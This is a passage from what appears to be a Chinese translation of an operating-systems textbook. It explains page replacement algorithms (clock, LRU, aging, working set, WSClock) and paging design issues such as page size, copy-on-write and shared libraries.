FIFO算法可能会把经常使用的页面置换出去，为了避免这一问题，对该算法做一个简单的修改：检查最老页面的R位。如果R位是0，那么这个页面既老又没有被使用，可以立刻置换掉；如果是1，就将R位清0，并把该页面放到链表的尾端，修改它的装入时间使它就像刚装入的一样，然后继续搜索。
这一算法称为第二次机会（second chance）算法，如图3-15所示。在图3-15a中我们看到页面A到页面H按照进入内存的时间顺序保存在链表中。
假设在时间20发生了一次缺页中断，这时最老的页面是A，它是在时刻0到达的。如果A的R位是0，则将它淘汰出内存，或者把它写回磁盘（如果它已被修改过），或者只是简单地放弃（如果它是“干净”的）；另一方面，如果其R位已经设置了，则将A放到链表的尾部并且重新设置“装入时间”为当前时刻（20），然后清除R位。然后从B页面开始继续搜索合适的页面。
第二次机会算法就是寻找一个最近的时钟间隔以来没有被访问过的页面。如果所有的页面都被访问过了，该算法就简化为纯粹的FIFO算法。特别地，想象一下，假设图3-15a中所有的页面的R位都被设置了，操作系统将会一个接一个地把每个页面都移动到链表的尾部并清除被移动的页面的R位。最后算法又将回到页面A，此时它的R位已经被清除了，因此A页面将被淘汰，所以这个算法总是可以结束的。
尽管第二次机会算法是一个比较合理的算法，但它经常要在链表中移动页面，既降低了效率又不是很有必要。一个更好的办法是把所有的页面都保存在一个类似钟面的环形链表中，一个表针指向最老的页面，如图3-16所示。
当发生缺页中断时，算法首先检查表针指向的页面，如果它的R位是0就淘汰该页面，并把新的页面插入这个位置，然后把表针前移一个位置；如果R位是1就清除R位并把表针前移一个位置，重复这个过程直到找到了一个R位为0的页面为止。了解了这个算法的工作方式，就明白为什么它被称为时钟（clock）算法了。
对最优算法的一个很好的近似是基于这样的观察：在前面几条指令中频繁使用的页面很可能在后面的几条指令中被使用。反过来说，已经很久没有使用的页面很有可能在未来较长的一段时间内仍然不会被使用。这个思想提示了一个可实现的算法：在缺页中断发生时，置换未使用时间最长的页面。这个策略称为LRU（Least Recently Used，最近最少使用）页面置换算法。
虽然LRU在理论上是可以实现的，但代价很高。为了完全实现LRU，需要在内存中维护一个所有页面的链表，最近最多使用的页面在表头，最近最少使用的页面在表尾。困难的是在每次访问内存时都必须要更新整个链表。在链表中找到一个页面，删除它，然后把它移动到表头是一个非常费时的操作，即使使用硬件实现也一样费时（假设有这样的硬件）。
然而，还是有一些使用特殊硬件实现LRU的方法。我们先考虑一个最简单的方法。这个方法要求硬件有一个64位计数器C，它在每条指令执行完后自动加1，每个页表项必须有一个足够容纳这个计数器值的域。在每次访问内存后，将当前的C值保存到被访问页面的页表项中。一旦发生缺页中断，操作系统就检查所有页表项中计数器的值，找到值最小的一个页面，这个页面就是最近最少使用的页面。
现在让我们看一看第二个硬件实现的LRU算法。在一个有n个页框的机器中，LRU硬件可以维持一个初值为0的n×n位的矩阵。当访问到页框k时，硬件首先把k行的位都设置成1，再把k列的位都设置成0。在任何时刻，二进制数值最小的行就是最近最少使用的，第二小的行是下一个最近最少使用的，以此类推。这个算法的工作过程可以用图3-17所示的实例说明，该实例中有4个页框，页面访问次序为：
0 1 2 3 2 1 0 3 2 3
访问页面0后的状态如图3-17a所示，访问页1后的状态如图3-17b所示，以此类推。
前面两种LRU算法虽然在理论上都是可以实现的，但只有非常少的计算机拥有这种硬件。因此，需要一个能用软件实现的解决方案。一种可能的方案称为NFU（Not Frequently Used，最不常用）算法。该算法将每个页面与一个软件计数器相关联，计数器的初值为0。每次时钟中断时，由操作系统扫描内存中所有的页面，将每个页面的R位（它的值是0或1）加到它的计数器上。这个计数器大体上跟踪了各个页面被访问的频繁程度。发生缺页中断时，则置换计数器值最小的页面。
NFU的主要问题是它从来不忘记任何事情。比如，在一个多次（扫描）编译器中，在第一次扫描中被频繁使用的页面在程序进入第二次扫描时，其计数器的值可能仍然很高。实际上，如果第一次扫描的执行时间恰好是各次扫描中最长的，含有以后各次扫描代码的页面的计数器可能总是比含有第一次扫描代码的页面小，结果是操作系统将置换有用的页面而不是不再使用的页面。
幸运的是只需对NFU做一个小小的修改就能使它很好地模拟LRU。其修改分为两部分：首先，在R位被加进之前先将计数器右移一位；其次，将R位加到计数器最左端的位而不是最右端的位。
修改以后的算法称为老化（aging）算法，图3-18解释了它是如何工作的。假设在第一个时钟滴答后，页面0到页面5的R位值分别是1、0、1、0、1、1（页面0为1，页面1为0，页面2为1，以此类推）。换句话说，在时钟滴答0到时钟滴答1期间，访问了页0、2、4、5，它们的R位设置为1，而其他页面的R位仍然是0。对应的6个计数器在经过移位并把R位插入其左端后的值如图3-18a所示。图中后面的4列是在下4个时钟滴答后的6个计数器的值。
发生缺页中断时，将置换计数器值最小的页面。如果一个页面在前面4个时钟滴答中都没有访问过，那么它的计数器最前面应该有4个连续的0，因此它的值肯定要比在前面三个时钟滴答中都没有被访问过的页面的计数器值小。
该算法与LRU有两个区别。如图3-18e中的页面3和页面5，它们都连续两个时钟滴答没有被访问过了，而在两个时钟滴答之前的时钟滴答中它们都被访问过。根据LRU，如果必须置换一个页面，则应该在这两个页面中选择一个。然而现在的问题是，我们不知道在时钟滴答1到时钟滴答2期间它们中的哪一个页面是后被访问到的。因为在每个时钟滴答中只记录了一位，所以无法区分在一个时钟滴答中哪个页面在较早的时间被访问以及哪个页面在较晚的时间被访问，因此，我们所能做的就是置换页面3，原因是页面5在更往前的两个时钟滴答中也被访问过而页面3没有。
LRU和老化算法的第二个区别是老化算法的计数器只有有限位数（本例中是8位），这就限制了其对以往页面的记录。如果两个页面的计数器都是0，我们只能在两个页面中随机选一个进行置换。实际上，有可能其中一个页面上次被访问是在9个时钟滴答以前，另一个页面是在1000个时钟滴答以前，而我们却无法看到这些。在实践中，如果时钟滴答是20ms，8位一般是够用的。假如一个页面已经有160ms没有被访问过，那么它很可能并不重要。
在单纯的分页系统里，刚启动进程时，在内存中并没有页面。在CPU试图取第一条指令时就会产生一次缺页中断，使操作系统装入含有第一条指令的页面。其他由访问全局数据和堆栈引起的缺页中断通常会紧接着发生。一段时间以后，进程需要的大部分页面都已经在内存了，进程开始在较少缺页中断的情况下运行。这个策略称为请求调页（demand paging），因为页面是在需要时被调入的，而不是预先装入。
编写一个测试程序很容易，在一个大的地址空间中系统地读所有的页面，将出现大量的缺页中断，因此会导致没有足够的内存来容纳这些页面。不过幸运的是，大部分进程不是这样工作的，它们都表现出了一种局部性访问行为，即在进程运行的任何阶段，它都只访问较少的一部分页面。例如，在一个多次扫描编译器中，各次扫描时只访问所有页面中的一小部分，并且是不同的部分。
一个进程当前正在使用的页面的集合称为它的工作集（working set）（Denning，1968a；Denning，1980）。如果整个工作集都被装入到了内存中，那么进程在运行到下一运行阶段（例如，编译器的下一遍扫描）之前，不会产生很多缺页中断。若内存太小而无法容纳下整个工作集，那么进程的运行过程中会产生大量的缺页中断，导致运行速度也会变得很缓慢，因为通常只需要几个纳秒就能执行完一条指令，而通常需要十毫秒才能从磁盘上读入一个页面。如果一个程序每10ms只能执行一到两条指令，那么它将会需要很长时间才能运行完。若每执行几条指令程序就发生一次缺页中断，那么就称这个程序发生了颠簸（thrashing）（Denning，1968b）。
在多道程序设计系统中，经常会把进程转移到磁盘上（即从内存中移走所有的页面），这样可以让其他的进程有机会占有CPU。有一个问题是，当该进程再次调回来以后应该怎样办？从技术的角度上讲，并不需要做什么。该进程会一直产生缺页中断直到它的工作集全部被装入内存。然而，每次装入一个进程时都要产生20、100甚至1000次缺页中断，速度显然太慢了，并且由于CPU需要几毫秒时间处理一个缺页中断，因此有相当多的CPU时间也被浪费了。
所以不少分页系统都会设法跟踪进程的工作集，以确保在让进程运行以前，它的工作集就已在内存中了。该方法称为工作集模型（working set model）（Denning，1970），其目的在于大大减少缺页中断率。在让进程运行前预先装入其工作集页面也称为预先调页（prepaging）。请注意工作集是随着时间变化的。
人们很早就发现大多数程序都不是均匀地访问它们的地址空间的，而访问往往是集中于一小部分页面。一次内存访问可能会取出一条指令，也可能会取数据，或者是存储数据。在任一时刻t，都存在一个集合，它包含所有最近k次内存访问所访问过的页面。这个集合w(k,t)就是工作集。因为最近k=1次访问肯定会访问最近k＞1次访问所访问过的页面，所以w(k,t)是k的单调非递减函数。随着k的变大，w(k,t)是不会无限变大的，因为程序不可能访问比它的地址空间所能容纳的页面数目上限还多的页面，并且几乎没有程序会使用每个页面。图3-19描述了作为k的函数的工作集的大小。
事实上大多数程序会任意访问一小部分页面，但是这个集合会随着时间而缓慢变化，这个事实也解释了为什么一开始曲线快速地上升而k较大时上升会变慢。举例来说，某个程序执行占用了两个页面的循环，并使用四个页面上的数据，那么可能每执行1000条指令，它就会访问这六个页面一次，但是最近的对其他页面的访问可能是在100万条指令以前的初始化阶段。因为这是个渐进的过程，k值的选择对工作集的内容影响不大。换句话说，k的值有一个很大的范围，它处在这个范围中时工作集不会变。因为工作集随时间变化很慢，那么当程序重新开始时，就有可能根据它上次结束时的工作集对要用到的页面做一个合理的推测，预先调页就是在程序继续运行之前预先装入推测出的工作集的页面。
为了实现工作集模型，操作系统必须跟踪哪些页面在工作集中。通过这些信息可以直接推导出一个合理的页面置换算法：当发生缺页中断时，淘汰一个不在工作集中的页面。为了实现该算法，就需要一种精确的方法来确定哪些页面在工作集中。根据定义，工作集就是最近k次内存访问所使用过的页面的集合（有些设计者使用最近k次页面访问，但是选择是任意的）。为了实现工作集算法，必须预先选定k的值。一旦选定某个值，每次内存访问之后，最近k次内存访问所使用过的页面的集合就是惟一确定的了。
当然，有了工作集的定义并不意味着存在一种有效的方法能够在程序运行期间及时地计算出工作集。设想有一个长度为k的移位寄存器，每进行一次内存访问就把寄存器左移一位，然后在最右端插入刚才所访问过的页面号。移位寄存器中的k个页面号的集合就是工作集。理论上，当缺页中断发生时，只要读出移位寄存器中的内容并排序；然后删除重复的页面。结果就是工作集。然而，维护移位寄存器并在缺页中断时处理它所需的开销很大，因此该技术从来没有被使用过。
作为替代，可以使用几种近似的方法。一种常见的近似方法就是，不是向后找最近k次的内存访问，而是考虑其执行时间。例如，按照以前的方法，我们定义工作集为前1000万次内存访问所使用过的页面的集合，那么现在就可以这样定义：工作集即是过去10ms中的内存访问所用到的页面的集合。实际上，这样的模型很合适且更容易实现。要注意到，每个进程只计算它自己的执行时间。因此，如果一个进程在T时刻开始，在（T+100）ms的时刻使用了40ms CPU时间，对工作集而言，它的时间就是40ms。一个进程从它开始执行到当前所实际使用的CPU时间总数通常称作当前实际运行时间。通过这个近似的方法，进程的工作集可以被称为在过去的τ秒实际运行时间中它所访问过的页面的集合。
现在让我们来看一下基于工作集的页面置换算法。基本思路就是找出一个不在工作集中的页面并淘汰它。在图3-20中读者可以看到某台机器的部分页表。因为只有那些在内存中的页面才可以作为候选者被淘汰，所以该算法忽略了那些不在内存中的页面。每个表项至少包含两条信息：上次使用该页面的近似时间和R（访问）位。空白的矩形表示该算法不需要的其他域，如页框号、保护位、M（修改）位。
该算法工作方式如下。如前所述，假定使用硬件来置R位和M位。同样，假定在每个时钟滴答中，有一个定期的时钟中断会用软件方法来清除R位。每当缺页中断发生时，扫描页表以找出一个合适的页面淘汰之。
在处理每个表项时，都需要检查R位。如果它是1，就把当前实际时间写进页表项的“上次使用时间”域，以表示缺页中断发生时该页面正在被使用。既然该页面在当前时钟滴答中已经被访问过，那么很明显它应该出现在工作集中，并且不应该被删除（假定τ横跨多个时钟滴答）。
如果R是0，那么表示在当前时钟滴答中，该页面还没有被访问过，则它就可以作为候选者被置换。为了知道它是否应该被置换，需要计算它的生存时间（即当前实际运行时间减去上次使用时间），然后与τ做比较。如果它的生存时间大于τ，那么这个页面就不再在工作集中，而用新的页面置换它。扫描会继续进行以更新剩余的表项。
然而，如果R是0同时生存时间小于或等于τ，则该页面仍然在工作集中。这样就要把该页面临时保留下来，但是要记录生存时间最长（“上次使用时间”的最小值）的页面。如果扫描完整个页表却没有找到适合被淘汰的页面，也就意味着所有的页面都在工作集中。在这种情况下，如果找到了一个或者多个R=0的页面，就淘汰生存时间最长的页面。在最坏情况下，在当前时间滴答中，所有的页面都被访问过了（也就是都有R=1），因此就随机选择一个页面淘汰，如果有的话最好选一个干净页面。
当缺页中断发生后，需要扫描整个页表才能确定被淘汰的页面，因此基本工作集算法是比较费时的。有一种改进的算法，它基于时钟算法，并且使用了工作集信息，称为WSClock（工作集时钟）算法（Carr和Hennessey，1981）。由于它实现简单，性能较好，所以在实际工作中得到了广泛应用。
与时钟算法一样，所需的数据结构是一个以页框为元素的循环表，参见图3-21a。最初，该表是空的。当装入第一个页面后，把它加到该表中。随着更多的页面的加入，它们形成一个环。每个表项包含来自基本工作集算法的上次使用时间，以及R位（已标明）和M位（未标明）。
与时钟算法一样，每次缺页中断时，首先检查指针指向的页面。如果R位被置为1，该页面在当前时钟滴答中就被使用过，那么该页面就不适合被淘汰。然后把该页面的R位置为0，指针指向下一个页面，并重复该算法。该事件序列之后的状态参见图3-21b。
现在来考虑指针指向的页面在R=0时会发生什么，参见图3-21c。如果页面的生存时间大于τ并且该页面是干净的，它就不在工作集中，并且在磁盘上有一个有效的副本。申请此页框，并把新页面放在其中，如图3-21d所示。另一方面，如果此页面被修改过，就不能立即申请页框，因为这个页面在磁盘上没有有效的副本。为了避免由于调度写磁盘操作引起的进程切换，指针继续向前走，算法继续对下一个页面进行操作。毕竟，有可能存在一个旧的且干净的页面可以立即使用。
原则上，所有的页面都有可能因为磁盘I/O在某个时钟周期被调度。为了降低磁盘阻塞，需要设置一个限制，即最大只允许写回n个页面。一旦达到该限制，就不允许调度新的写操作。
如果指针经过一圈返回它的起始点会发生什么呢？这里有两种情况：
1)至少调度了一次写操作。
2)没有调度过写操作。
对于第一种情况，指针仅仅是不停地移动，寻找一个干净页面。既然已经调度了一个或者多个写操作，最终会有某个写操作完成，它的页面会被标记为干净。置换遇到的第一个干净页面，这个页面不一定是第一个被调度写操作的页面，因为硬盘驱动程序为了优化性能可能已经把写操作重排序了。
对于第二种情况，所有的页面都在工作集中，否则将至少调度了一个写操作。由于缺乏额外的信息，一个简单的方法就是随便置换一个干净的页面来使用，扫描中需要记录干净页面的位置。如果不存在干净页面，就选定当前页面并把它写回磁盘。
我们已经考察了多种页面置换算法，本节将对这些算法进行总结。已经讨论过的算法在图3-22中列出。
最优算法在当前页面中置换最后要访问到的页面。不幸的是，没有办法来判定哪个页面是最后一个要访问的，因此实际上该算法不能使用。然而，它可以作为衡量其他算法的基准。
NRU算法根据R位和M位的状态把页面分为四类。从编号最小的类中随机选择一个页面置换。该算法易于实现，但是性能不是很好，还存在更好的算法。
FIFO算法通过维护一个页面的链表来记录它们装入内存的顺序。淘汰的是最老的页面，但是该页面可能仍在使用，因此FIFO算法不是一个好的选择。
第二次机会算法是对FIFO算法的改进，它在移出页面前先检查该页面是否正在被使用。如果该页面正在被使用，就保留该页面。这个改进大大提高了性能。时钟算法是第二次机会算法的另一种实现。它具有相同的性能特征，而且只需要更少的执行时间。
LRU算法是一种非常优秀的算法，但是只能通过特定的硬件来实现。如果机器中没有该硬件，那么也无法使用该算法。NFU是一种近似于LRU的算法，它的性能不是非常好，然而，老化算法更近似于LRU并且可以更有效地实现，是一个很好的选择。
最后两种算法都使用了工作集。工作集算法有合理的性能，但它的实现开销较大。工作集时钟算法是它的一种变体，不仅具有良好的性能，并且还能高效地实现。
总之，最好的两种算法是老化算法和工作集时钟算法，它们分别基于LRU和工作集。它们都具有良好的页面调度性能，可以有效地实现。也存在其他一些算法，但在实际应用中，这两种算法可能是最重要的。
在前几节里我们讨论了分页系统是如何工作的，并给出了一些基本的页面置换算法和如何实现它们。然而只了解基本机制是不够的。要设计一个系统，必须了解得更多才能使系统工作得更好。这两者之间的差别就像知道了怎样移动象棋的各种棋子与成为一个好棋手之间的差别。下面我们将讨论为了使分页系统达到较好的性能，操作系统设计者必须仔细考虑的一些其他问题。
在前几节中，我们讨论了在发生缺页中断时用来选择一个被置换页面的几个算法。与这个选择相关的一个主要问题（到目前为止我们一直在小心地回避这个问题）是，怎样在相互竞争的可运行进程之间分配内存。
如图3-23a所示，三个进程A、B、C构成了可运行进程的集合。假如A发生了缺页中断，页面置换算法在寻找最近最少使用的页面时是只考虑分配给A的6个页面呢？还是考虑所有在内存中的页面？如果只考虑分配给A的页面，生存时间值最小的页面是A5，于是将得到图3-23b所示的状态。
另一方面，如果淘汰内存中生存时间值最小的页面，而不管它属于哪个进程，则将选中页面B3，于是将得到图3-23c所示的情况。图3-23b的算法被称为局部（local）页面置换算法，而图3-23c被称为全局（global）页面置换算法。局部算法可以有效地为每个进程分配固定的内存片段。全局算法在可运行进程之间动态地分配页框，因此分配给各个进程的页框数是随时间变化的。
全局算法在通常情况下工作得比局部算法好，当工作集的大小随进程运行时间发生变化时这种现象更加明显。若使用局部算法，即使有大量的空闲页框存在，工作集的增长也会导致颠簸。如果工作集缩小了，局部算法又会浪费内存。在使用全局算法时，系统必须不停地确定应该给每个进程分配多少页框。一种方法是监测工作集的大小，工作集大小由“老化”位指出，但这个方法并不能防止颠簸。因为工作集的大小可能在几微秒内就会发生改变，而老化位却要经历一定的时钟滴答数才会发生变化。
另一种途径是使用一个为进程分配页框的算法。其中一种方法是定期确定进程运行的数目并为它们分配相等的份额。例如，在有12 416个有效（即未被操作系统使用的）页框和10个进程时，每个进程将获得1241个页框，剩下的6个被放入到一个公用池中，当发生缺页中断时可以使用这些页面。
这个算法看起来好像很公平，但是给一个10KB的进程和一个300KB的进程分配同样大小的内存块是很不合理的。可以采用按照进程大小的比例来为它们分配相应数目的页面的方法来取代上一种方法，这样300KB的进程将得到10KB进程30倍的份额。比较明智的一个可行的做法是对每个进程都规定一个最小的页框数，这样不论多么小的进程都可以运行。例如，在某些机器上，一条两个操作数的指令会需要多达6个页面，因为指令自身、源操作数和目的操作数可能会跨越页面边界，若只给一条这样的指令分配了5个页面，则包含这样的指令的程序根本无法运行。
如果使用全局算法，根据进程的大小按比例为其分配页面也是可能的，但是该分配必须在程序运行时动态更新。管理内存动态分配的一种方法是使用PFF（Page Fault Frequency，缺页中断率）算法。它指出了何时增加或减少分配给一个进程的页面，但却完全没有说明在发生缺页中断时应该替换掉哪一个页面，它仅仅控制分配集的大小。
正如我们上面讨论过的，有一大类页面置换算法（包括LRU在内），缺页中断率都会随着分配的页面的增加而降低，这是PFF背后的假定。这一性质在图3-24中说明。
测量缺页中断率的方法是直截了当的：计算每秒的缺页中断数，可能也会将过去数秒的情况做连续平均。一个简单的方法是将当前这一秒的值加到当前的连续平均值上然后除以2。虚线A对应于一个高得不可接受的缺页中断率，虚线B则对应于一个低得可以假设进程拥有过多内存的缺页中断率。在这种情况下，可能会从该进程的资源中剥夺部分页框。这样，PFF尽力让每个进程的缺页中断率控制在可接受的范围内。
值得注意的是，一些页面置换算法既适用于局部置换算法，又适用于全局置换算法。例如，FIFO能够将所有内存中最老的页面置换掉（全局算法），也能将当前进程的页面中最老的替换掉（局部算法）。相似地，LRU或是一些类似算法能够将所有内存中最近最少访问的页框替换掉（全局算法），或是将当前进程中最近最少使用的页框替换掉（局部算法）。在某些情况下，选择局部策略还是全局策略是与页面置换算法无关的。
另一方面，对于其他的页面置换算法，只有采用局部策略才有意义。特别是工作集和WSClock算法是针对某些特定进程的而且必须应用在这些进程的上下文中。实际上没有针对整个机器的工作集，并且试图使用所有工作集的并集作为机器的工作集可能会丢失一些局部特性，这样算法就不能得到好的性能。
即使是使用最优页面置换算法并对进程采用理想的全局页框分配，系统也可能会发生颠簸。事实上，一旦所有进程的组合工作集超出了内存容量，就可能发生颠簸。该现象的症状之一就是如PFF算法所指出的，一些进程需要更多的内存，但是没有进程需要更少的内存。在这种情况下，没有方法能够在不影响其他进程的情况下满足那些需要更多内存的进程的需要。惟一现实的解决方案就是暂时从内存中去掉一些进程。
减少竞争内存的进程数的一个好方法是将一部分进程交换到磁盘，并释放他们所占有的所有页面。例如，一个进程可以被交换到磁盘，而它的页框可以被其他处于颠簸状态的进程分享。如果颠簸停止，系统就能够这样运行一段时间。如果颠簸没有结束，需要继续将其他进程交换出去，直到颠簸结束。因此，即使是使用分页，交换也是需要的，只是现在交换是用来减少对内存潜在的需求，而不是收回它的页面。
将进程交换出去以减轻内存需求的压力是借用了两级调度的思想，在此过程中一些进程被放到磁盘，此时用一个短期的调度程序来调度剩余的进程。很明显，这两种思路可以被组合起来，将恰好足够的进程交换出去以获取可接受的缺页中断率。一些进程被周期性地从磁盘调入，而其他一些则被周期性地交换到磁盘。
不过，另一个需要考虑的因素是多道程序设计的道数。当内存中的进程数过低的时候，CPU可能在很长的时间内处于空闲状态。考虑到该因素，在决定交换出哪个进程时不光要考虑进程大小和分页率，还要考虑它的特性（如它究竟是CPU密集型还是I/O密集型）以及其他进程的特性。
页面大小是操作系统可以选择的一个参数。例如，即使硬件设计只支持512字节的页面，操作系统也可以很容易通过总是为页面对0和1、2和3、4和5等分配两个连续的512字节的页框，而将其作为1KB的页面。
要确定最佳的页面大小需要在几个互相矛盾的因素之间进行权衡。从结果看，不存在全局最优。首先，有两个因素可以作为选择小页面的理由。随便选择一个正文段、数据段或堆栈段很可能不会恰好装满整数个页面，平均的情况下，最后一个页面中有一半是空的。多余的空间就被浪费掉了，这种浪费称为内部碎片（internal fragmentation）。在内存中有n个段、页面大小为p字节时，会有np/2字节被内部碎片浪费。从这方面考虑，使用小页面更好。
选择小页面还有一个明显的好处，如果考虑一个程序，它分成8个阶段顺序执行，每阶段需要4KB内存。如果页面大小是32KB，那就必须始终给该进程分配32KB内存。如果页面大小是16KB，它就只需要16KB。如果页面大小是4KB或更小，在任何时刻它只需要4KB内存。总的来说，与小页面相比，大页面使更多没有用的程序保留在内存中。
在另一方面，页面小意味着程序需要更多的页面，这又意味着需要更大的页表。一个32KB的程序只需要4个8KB的页面，却需要64个512字节的页面。内存与磁盘之间的传输一般是一次一页，传输中的大部分时间都花在了寻道和旋转延迟上，所以传输一个小的页面所用的时间和传输一个大的页面基本上是相同的。装入64个512字节的页面可能需要64×10ms，而装入4个8KB的页面可能只需要4×12ms。
在某些机器上，每次CPU从一个进程切换到另一个进程时都必须把新进程的页表装入硬件寄存器中。这样，页面越小意味着装入页面寄存器花费的时间就会越长，而且页表占用的空间也会随着页面的减小而增大。
最后一点可以从数学上进行分析，假设进程平均大小是s个字节，页面大小是p个字节，每个页表项需要e个字节。那么每个进程需要的页数大约是s/p，占用了se/p个字节的页表空间。内部碎片在最后一页浪费的内存是p/2。因此，由页表和内部碎片损失造成的全部开销是以下两项之和：
开销=se/p+p/2
在页面比较小的时候，第一项（页表大小）大。在页面比较大时第二项（内部碎片）大。最优值一定在页面大小处于中间的某个值时取得，通过对p一次求导并令右边等于零，我们得到方程：
-se/p2 +1/2=0
从这个方程可以得出最优页面大小的公式（只考虑碎片浪费和页表所需的内存），结果是：
对于s=1MB和每个页表项e=8个字节，最优页面大小是4KB。商用计算机使用的页面大小一般在512字节到64KB之间，以前的典型值是1KB，而现在更常见的页面大小是4 KB或8KB。随着存储器越来越大，页面也倾向于更大（但不是线性的）。把RAM扩大4倍极少会使页面大小加倍。
大多数计算机只有一个地址空间，既存放程序也存放数据，如图3-25a所示。如果地址空间足够大，那么一切都好。然而，地址空间通常太小了，这就使得程序员对地址空间的使用出现困难。
首先在PDP-11（16位）上实现的一种解决方案是，为指令（程序正文）和数据设置分离的地址空间，分别称为I空间和D空间，如图3-25b所示。每个地址空间都从0开始到某个最大值，比较有代表性的是216 -1或者232 -1。链接器必须知道何时使用分离的I空间和D空间，因为当使用它们时，数据被重定位到虚拟地址0，而不是在程序之后开始。
在使用这种设计的计算机中，两种地址空间都可以进行分页，而且互相独立。它们分别有自己的页表，分别完成虚拟页面到物理页框的映射。当硬件进行取指令操作时，它知道要使用I空间和I空间页表。类似地，对数据的访问必须通过D空间页表。除了这一区别，拥有分离的I空间和D空间不会引入任何复杂的设计，而且它还能使可用的地址空间加倍。
另一个设计问题是共享。在大型多道程序设计系统中，几个不同的用户同时运行同一个程序是很常见的。显然，由于避免了在内存中有一个页面的两份副本，共享页面效率更高。这里存在一个问题，即并不是所有的页面都适合共享。特别地，那些只读的页面（诸如程序文本）可以共享，但是数据页面则不能共享。
如果系统支持分离的I空间和D空间，那么通过让两个或者多个进程来共享程序就变得非常简单了，这些进程使用相同的I空间页表和不同的D空间页表。在一个比较典型的使用这种方式来支持共享的实现中，页表与进程表数据结构无关。每个进程在它的进程表中都有两个指针：一个指向I空间页表，一个指向D空间页表，如图3-26所示。当调度程序选择一个进程运行时，它使用这些指针来定位合适的页表，并使用它们来设立MMU。即使没有分离的I空间和D空间，进程也可以共享程序（或者有时为库），但要使用更为复杂的机制。
在两个或更多进程共享某些代码时，在共享页面上存在一个问题。假设进程A和进程B同时运行一个编辑器并共享页面。如果调度程序决定从内存中移走A，撤销其所有的页面并用一个其他程序来填充这些空的页框，则会引起B产生大量的缺页中断，才能把这些页面重新调入。
类似地，当进程A结束时，能够发现这些页面仍然在被使用是非常必要的，这样，这些页面的磁盘空间才不会被随意释放。查找所有的页表，考察一个页面是否共享，其代价通常比较大，所以需要专门的数据结构记录共享页面，特别地，如果共享的单元是单个页面（或一批页面），而不是整个页表。
共享数据要比共享代码麻烦，但也不是不可能。特别是在UNIX中，在进行fork系统调用后，父进程和子进程要共享程序文本和数据。在分页系统中，通常是让这些进程分别拥有它们自己的页表，但都指向同一个页面集合。这样在执行fork调用时就不需要进行页面复制。然而，所有映射到两个进程的数据页面都是只读的。
只要这两个进程都仅仅是读数据，而不做更改，这种情况就可以保持下去。但只要有一个进程更新了一点数据，就会触发只读保护，并引发操作系统陷阱。然后会生成一个该页的副本，这样每个进程都有自己的专用副本。两个复制都是可以读写的，随后对任何一个副本的写操作都不会再引发陷阱。这种策略意味着那些从来不会执行写操作的页面（包括所有程序页面）是不需要复制的，只有实际修改的数据页面需要复制。这种方法称为写时复制，它通过减少复制而提高了性能。
可以使用其他的粒度取代单个页面来实现共享。如果一个程序被启动两次，大多数操作系统会自动共享所有的代码页面，而在内存中只保留一份代码页面的副本。代码页面总是只读的，因此这样做不存在任何问题。依赖于不同的操作系统，每个进程都拥有一份数据页面的私有副本，或者这些数据页面被共享并且被标记为只读。如果任何一个进程对一个数据页面进行修改，系统就会为此进程复制这个数据页面的一个副本，并且这个副本是此进程私有的，也就是说会执行“写时复制”。
现代操作系统中，有很多大型库被众多进程使用，例如，处理浏览文件以便打开文件的对话框的库和多个图形库。把所有的这些库静态地与磁盘上的每一个可执行程序绑定在一起，将会使它们变得更加庞大。
一个更加通用的技术是使用共享库（在Windows中称作DLL或动态链接库）。为了清楚地表达共享库的思想，首先考虑一下传统的链接。当链接一个程序时，要在链接器的命令中指定一个或多个目标文件，可能还包括一些库文件。以下面的UNIX命令为例：
ld*.o-lc-lm
这个命令会链接当前目录下的所有的.o（目标）文件，并扫描两个库：/usr/lib/libc.a和/usr/lib/libm.a。任何在目标文件中被调用了但是没有被定义的函数（比如，printf），都被称作未定义外部函数（undefined externals）。链接器会在库中寻找这些未定义外部函数。如果找到了，则将它们加载到可执行二进制文件中。任何被这些未定义外部函数调用了但是不存在的函数也会成为未定义外部函数。例如，printf需要write，如果write还没有被加载进来，链接器就会查找write并在找到后把它加载进来。当链接器完成任务后，一个可执行二进制文件被写到磁盘，其中包括了所需的全部函数。在库中定义但是没有被调用的函数则不会被加载进去。当程序被装入内存执行时，它需要的所有函数都已经准备就绪了。
假设普通程序需要消耗20～50MB用于图形和用户界面函数。静态链接上百个包括这些库的程序会浪费大量的磁盘空间，在装载这些程序时也会浪费大量的内存空间，因为系统不知道它可以共享这些库。这就是引入共享库的原因。当一个程序和共享库（与静态库有些许区别）链接时，链接器没有加载被调用的函数，而是加载了一小段能够在运行时绑定被调用函数的存根例程（stub routine）。依赖于系统和配置信息，共享库或者和程序一起被装载，或者在其所包含函数第一次被调用时被装载。当然，如果其他程序已经装载了某个共享库，就没有必要再次装载它了——这正是关键所在。值得注意的是，当一个共享库被装载和使用时，整个库并不是被一次性地读入内存。而是根据需要，以页面为单位装载的，因此没有被调用到的函数是不会被装载到内存中的。
除了可以使可执行文件更小、节省内存空间之外，共享库还有一个优点：如果共享库中的一个函数因为修正一个bug被更新了，那么并不需要重新编译调用了这个函数的程序。旧的二进制文件依然可以正常工作。这个特性对于商业软件来说尤为重要，因为商业软件的源码不会分发给客户。例如，如果微软发现并修复了某个标准DLL中的安全错误，Windows更新会下载新的DLL来替换原有文件，所有使用这个DLL的程序在下次启动时会自动使用这个新版本的DLL。
不过，共享库带来了一个必须解决的小问题，如图3-27所示。我们看到有两个进程共享一个20KB大小的库（假设每一方框为4KB）。但是，这个库被不同的进程定位在不同的地址上，大概是因为程序本身的大小不相同。在进程1中，库从地址36K开始；在进程2中则从地址12K开始。假设库中第一个函数要做的第一件事就是跳转到库的地址16。如果这个库没有被共享，它可以在装载的过程中重定位，就会跳转（在进程1中）到虚拟地址的36K+16。注意，库被装载到的物理地址与这个库是否为共享库是没有任何关系的，因为所有的页面都被MMU硬件从虚拟地址映射到了物理地址。
但是，由于库是共享的，因此在装载时再进行重定位就行不通了。毕竟，当进程2调用第一个函数时（在地址12K），跳转指令需要跳转到地址12K+16，而不是地址36K+16。这就是那个必须解决的小问题。解决它的一个办法是写时复制，并为每一个共享这个库的进程创建新页面，在创建新页面的过程中进行重定位。当然，这样做和使用共享库的目的相悖。
一个更好的解决方法是：在编译共享库时，用一个特殊的编译选项告知编译器，不要产生使用绝对地址的指令。相反，只能产生使用相对地址的指令。例如，几乎总是使用向前（或向后）跳转n个字节（与给出具体跳转地址的指令不同）的指令。不论共享库被放置在虚拟地址空间的什么位置，这种指令都可以正确工作。通过避免使用绝对地址，这个问题就可以被解决。只使用相对偏移量的代码被称作位置无关代码（position-independent code）。
